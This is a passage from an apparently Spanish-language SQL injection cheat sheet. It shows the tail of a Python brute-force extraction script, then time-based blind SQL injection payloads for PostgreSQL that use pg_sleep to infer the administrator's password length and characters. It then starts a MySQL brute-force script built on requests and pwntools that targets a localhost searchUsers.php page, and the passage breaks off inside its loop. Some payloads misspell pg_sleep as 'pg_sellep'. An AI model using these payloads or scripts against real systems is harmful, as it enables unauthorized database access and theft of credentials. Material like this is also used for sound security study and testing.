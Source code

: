```python
                extrated_info += chr(character)
                p2.status(extrated_info)
                break

if __name__ == '__main__':
    MakeSQLI()

```

## SQL BLIND Time

```bash 
# Obtener informacion con una SQL Time en PostgreSQL

# Si el usuario se llama 'administrator' esperara 5 seg, de lo contrario no esperara nada 
❯ ' ;select case when (username='administrator') then pg_sleep(5) else pg_sellep(0) end from users-- - 


# Para extraer la longitud de la password, como si es verdad se tardara los 5 seg, de lo contrario no se tardara nada y es ahi cuando sabremos la longitud de la password
❯ ' ;select case when (username='administrator' and length(password)>1) then pg_sleep(5) else pg_sellep(0) end from users-- - 


# Obtener la password del usuario administrator, si la primer letra de la password es igual a 'a' tardara 5seg, de lo contrario no tardara nada 
❯ ' ;select case when (username='administrator' and substring(password,1,1)='a') then pg_sleep(5) else pg_sellep(0) end from users-- -
```

```python 
# Para la base de datos MySQL

#!/usr/bin/python3

import requests
import signal
import sys
import time
import string
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)
    
# Ctrl + c
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://localhost/searchUsers.php"
characters = string.printable

def MakeSQLI():
    p1 = log.progress("Fuerza Bruta")
    p1.status("Iniciando fuerza bruta")
    time.sleep(2)
    p2 = log.progress("Datos extraidos")
    extrated_info = ""

    for position in range(1, 150):
        for character in range(33, 126): # El 1 de abajo es un valor que si existe
```
